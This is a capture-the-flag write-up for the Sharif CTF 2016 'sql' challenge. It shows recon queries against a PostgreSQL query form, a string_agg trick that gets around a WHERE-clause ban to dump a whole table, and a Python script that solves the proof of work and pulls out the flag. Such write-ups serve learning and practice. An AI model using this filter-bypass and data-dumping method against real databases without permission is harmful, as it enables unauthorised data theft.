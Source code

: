 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: sql (pwn 150)"
author: f0rki
categories: writeup
tags: [cat/pwn, lang/sql]
---
```


* **Category:** pwn
* **Points:** 150
* **Description:**

> Our website http://ctf.sharif.edu:36455/chal/sql/ executes your PostgreSQL
> queries. And flags are nicely formatted.

## Write-up

We were presented with a simple form for a SQL query string and were given a
proof of work challenge. Apparently we can execute arbitrary SQL queries if we
can compute the proof of work. As it turns out there wasn't more to do than
this. I really don't know why this was categorized as `pwn`, because it really
is a `web` challenge.

Step 1 was to copy-paste proof of work code from a past CTF. We can then submit
arbitrary queries and are only restricted by the permissions of the database
user. The organizers were so nice and told us it is PostgreSQL. So first some
recon queries:

```
sql> select version()
PostgreSQL 9.4.5 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.9.2-10ubuntu13) 4.9.2, 64-bit

sql> SELECT current_database()
sql_limit_ctf_question

sql> select * from information_schema.tables
sql_limit_ctf_question | pg_catalog | pg_type  | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | messages | BASE TABLE |||| YES | NO |
sql_limit_ctf_question | public     | mydata   | BASE TABLE |||| YES | NO |

sql> select count(*) from mydata
0

sql> select count(*) from messages
100000

sql> select count( distinct msg) from messages
96519

sql> select * from messages
```

We only receive the first 3 rows from the output. And messages seems to be
filled with some random garbage. The description mentioned that the flag is
nicely formatted. So maybe one of the messages contains the flag.

```
sql> select * from messages where msg like 'Sharif%'
Search is not allowed.
```

So apparently our current database user isn't allowed to put `where` into
queries. That makes it kind of hard to retrieve the messages. We could fetch
all the rows, three at a time with

```
select * from messages limit 3 offset X
```

But this would take ages, because we have to compute the proof of work. So
there has to be another way. After a little bit of googling I found the
interesting function: `string_agag`. This function allows us to concatenate all
fields from a query into a single string. With the following query we can fetch
all messages, separated by a `, `.

```
select string_agg(msg, ', ') from messages
```

Now it was just a matter of search for the flag and it turns out we got lucky
:) We used the following python script to compute the proof of work, send
queries and fetch the flag:


```python
import requests
import re
import os
import hashlib
import sys
from pwn import log

URL = "http://ctf.sharif.edu:36455/chal/sql/"
NONCERE = re.compile("Nonce: ([a-zA-Z0-9]+) ")
FLAGRE = re.compile("[sS]harif[cC][tT][fF]{.+}")


def proof_of_work(chal, rlen=30, forbidden_chars="", hashfunc=hashlib.sha1):
    i = 0
    maxiter = 2 ** 28
    while i < maxiter:
        i += 1
        s = os.urandom(rlen)
        for c in forbidden_chars:
            s = s.replace(c, "")
        h = hashfunc()
        h.update(s)
        h.update(chal)
        digest = h.hexdigest()
        if digest.startswith("00000"):
            log.info("found proof of work after {} iterations"
                     .format(i))
            return s
    log.critical("couldn't find matching proof of work after {} iterations"
                 .format(i))
    return None


def run_query(query):
    log.info("Running query:\n{}".format(repr(query)))
    s = requests.session()
    resp = s.get(URL)
    m = NONCERE.search(resp.text)
    if not m:
        print("Received:")
        print(resp.text)
        raise Exception("No nonce found in response!")
    nonce = m.groups()[0]
    log.info("got nonce '{}', computing proof of work".format(nonce))
    pofw = proof_of_work(nonce)
    if not pofw:
        return None
    log.info
    resp = s.post(URL, data={"pow": pofw, "sql": query})
    return resp.text


if __name__ == "__main__":
    #r = run_query("SELECT version()")
    #log.info("received:\n" + str(r))
    if len(sys.argv) > 1:
        for i, q in enumerate(sys.argv[1:]):
            r = run_query(q)
            log.info("received:\n" + str(r))
            if r:
                fname = "output{}.html".format(i)
                log.info("Writing response to " + fname)
                with open(fname, "w") as f:
                    f.write(str(r))

    log.info("Now fetching flag:")
    res = run_query("select string_agg(msg, ', ') from messages")
    for flagcandidate in FLAGRE.findall(res):
        log.info(flagcandidate)

```

Running the script:

```
[*] Now fetching flag:
[*] Running query:
    "select string_agg(msg, ', ') from messages"
[*] got nonce 'c41bcb2185', computing proof of work
[*] found proof of work after 354166 iterations
[*] SharifCTF{f1c16ea7b34877811e4662101b6a0d30}
```

